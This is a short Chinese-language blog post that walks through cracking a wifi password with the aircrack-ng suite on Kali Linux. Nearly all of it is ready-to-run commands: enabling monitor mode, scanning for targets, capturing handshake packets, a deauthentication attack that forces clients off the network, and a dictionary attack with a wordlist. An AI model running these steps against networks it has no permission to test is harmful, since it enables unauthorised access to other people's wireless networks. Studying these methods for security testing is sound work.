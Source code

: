 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/wifi.jpg" class="fit image"> 
  
  
  
  
  
## 实验过程
### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包
### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作。
  如果没有开启，输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启 
 <center>
  <img src="/images/thumbs/wlan0.png" width="520" height="320" />
 </center>
                                                               
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" width="520" height="320" />

### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
<img src="/images/thumbs/mubiao.jpg" width="520" height="320" />   

### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```
 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6  
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
  <img src="/images/thumbs/attack.jpg" width="520" height="320" />
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
  <img src="/images/thumbs/ben.jpg" width="520" height="320" />
 + -w是指定我的密码本


